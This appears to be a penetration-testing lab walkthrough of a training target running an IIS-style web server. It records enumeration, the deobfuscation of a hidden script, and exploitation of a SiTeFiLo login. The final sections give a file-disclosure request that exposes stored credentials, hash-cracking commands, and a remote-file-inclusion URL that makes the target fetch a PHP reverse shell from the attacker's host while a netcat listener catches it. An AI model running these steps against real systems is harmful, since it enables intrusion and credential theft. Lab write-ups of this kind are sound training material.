Getting a Foothold

Getting a Foothold

# 1. NMAP Scans
Run a TCP Connect scan for services on all ports. 
`sudo nmap -sV -sT -p- 10.11.1.133`

The output shows only port 80 as open with service name Microsoft IIS 5.6:

Run all the HTTP NSE scripts since the only port open is an http service.
`nmap -Pn -p 80 --script "*http*" 10.11.1.133`

Attached is the output file:
[2020-08-30_214424_nmap_noPing_scripts_http_p80__10.11.1.133.nmap](../../../_resources/4764dac2a5df448988d2e07a2b50b0bf.nmap)

# 2. dirb scan
A non-recursive scan shows directories consistent with Microsoft IIS 5.6 (eg. iissamples directory)
`dirb http://10.11.1.133 -r`


# 3. Nikto scan 
Output of a default scan mentions CVE-1999-0737. MS99-013.
`nikto -h 10.11.1.133`


# 4. Exploit MS99-013
*Rabbit Hole!* Tried exploiting the code and looking for a directory traversal using the exploit. Dotdotpwn at first identified a traversal, but I couldn't find it manually on using the browser. **More research on dotdotpwn needed to identify false positives.**

# 5. Netcat UDP port scan 
*Rabbit Hole!* Port 27374 open with the service name 'asp'. There are other open UDP ports, but the 'asp' service name made me continue to treat it as Microsoft IIS 5.6.
`sudo nc -nv -u -z -w 1 10.11.1.133 1-65535`

Tried opening a connection using netcat for port 27374, and also using socat and telnet, but no response.

# 6. View source code on every page that was found by brute force (ie. dirb) 
There is a reference to `hidd3n-script` but no other code. Didn't know what to do with that at this time.
[view-source:http://10.11.1.133/test.asp](view-source:http://10.11.1.133/test.asp)


# 7. netcat into port 80 document root
We see that at the end of the output it says **Bad Ph33r**.
`nc -nv 10.11.1.133 80`


But why doesn't it have status 400 instead of 200? After some research, the solution is to change the user-agent to curl. I forgot the link I used but we would've known to try a different user agent by looking at NMAP's http-user-agent-test script results. Notice that **libcurl-agent/1.0** has status 200

Try to netcat the document root again, and we see this time it's status 200:
`printf "GET / HTTP/1.1\r\nHost: 10.11.1.133\r\nUser-Agent: libcurl-agent/1.0\r\nAccept: */*\r\n\r\n" | sudo nc 10.11.1.133 80`

# 8. Try to netcat the /test.asp directory
Using the libcurl-agent/1.0 browser useragent string, we get status 200
`printf "GET /test.asp HTTP/1.1\r\nHost: 10.11.1.133\r\nUser-Agent: libcurl-agent/1.0\r\nAccept: */*\r\n\r\n" | sudo nc 10.11.1.133 80`


# 9. Perhaps hidd3n-script is a directory... yes it is!
Using the libcurl-agent/1.0 browser useragent string, we get status 200. Aha! Here is the hidd3n-script:
`printf "GET /hidd3n-script HTTP/1.1\r\nHost: 10.11.1.133\r\nUser-Agent: libcurl-agent/1.0\r\nAccept: */*\r\n\r\n" | sudo nc 10.11.1.133 80`

# 10. Deobfuscate hidd3n-script
I tried to beautify the code online, but those kept removing the var_0x5490 variable at the beginning of the script. I ended up manually replacing all the hex values myself using this website
[https://www.rapidtables.com/convert/number/hex-to-ascii.html](https://www.rapidtables.com/convert/number/hex-to-ascii.html)

How do I know it's JavaScript code? Google kept showing me search hits of the code (others have posted it on the web), all of which was javascript

Here is the deobfuscated code:
[hidd3n-script](../../../_resources/5b3ec7c808234dbeb00707cd8b27f368.133hidd3)


# 11. Understand what hidd3n-script is doing 
It specifies that the hidd3n-script is here:
[http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/](http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/)


# 12. How deep is the rabbit hole? Perhaps there are more nested directories or files... Yes there are!
From hidd3n-script, there are image files that we haven't seen yet. They are found in the directory.

Here is offsecphun1.gif:
[http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/offsecphun1.gif](http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/offsecphun1.gif)

Here is offsecphun2.png:
[http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/offsecphun2.png](http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/offsecphun2.png)


# 13. Don't forget offsecphun5.bmp
Here is offsecphun5.bmp
[http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/offsecphun5.bmp](http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/offsecphun5.bmp)

When we input it into the browser it redirects us to an image in another directory:
[http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/1.jpeg](http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/1.jpeg)
 

# 14. Check what else may be listed in the 111111111 dir.
We find a login page:
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/`

The source code:

# 15. Research 'slogin'
## Searchsploit
No info found via on searchsploit:
`searchsploit slogin`

## Google search of slogin_POST_username
We find a better search term: **SiTeFiLo**

## Searchsploit (again)
This time we find a hit
`searcshploit sitefilo`

Download the sitefilo exploit. Exploit 7444.txt contains 2 exploits: a file disclosure and an RFI
`searchsploit -m 7444`


# 16. Check if file disclosure works on 7444.txt exploit.


The slog_users.txt is there and reveals some credentials
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slog_users.txt`

# 17. Attempt to crack the hashes - FAILED
### Online
[https://crackstation.net/](https://crackstation.net/)

### Hashcat
`hashcat hashes.txt /usr/share/wordlists/rockyou.txt --force`

# 18. Check if RFI works on 7444.txt exploit. 
**[!] EXPLOIT: /[path]/slogin_lib.inc.php?slogin_path=[remote_txt_shell]**

## Confirm if slogin_lib.inc.php exists... yes it does
### Navigate to the site on a browser
[http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php](http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php)


### Confirm via netcat
`printf "GET /1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php HTTP/1.1\r\nHost: 10.11.1.133\r\nUser-Agent: libcurl-agent/1.0\r\nAccept: */*\r\n\r\n" | sudo nc 10.11.1.133 80`


## Pick a reverse shell, and modify it to use your attack machine's IP and listening port if necessary.
The shell that works is the one located at:
`/usr/share/webshells/php/php-reverse-shell.php`

Modify it to use the attack machine IP and listening port of your choice.
In this example, attack machine IP=192.168.119.214, and listening port=5678


*Note* I had also tried a jsp reverse shell, but it didn't work.
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php?slogin_path=http://192.168.119.214/jsp-reverse.jsp?`

## Serve the reverse-shell.php file
Stop the apache2 service if necessary
`sudo systemctl stop apache2`

Navigate to the directory where reverse-shell.php is, then start a python server on port 80
`sudo python -m SimpleHTTPServer 80`

## Start a netcat listener on port 5678
`sudo nc -lvnp 5678`

## Browse to:
[http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php?slogin_path=http://192.168.119.214/php-reverse-shell.php?](http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php?slogin_path=http://192.168.119.214/php-reverse-shell.php?)

## Observe the netcat listener now shows a shell!

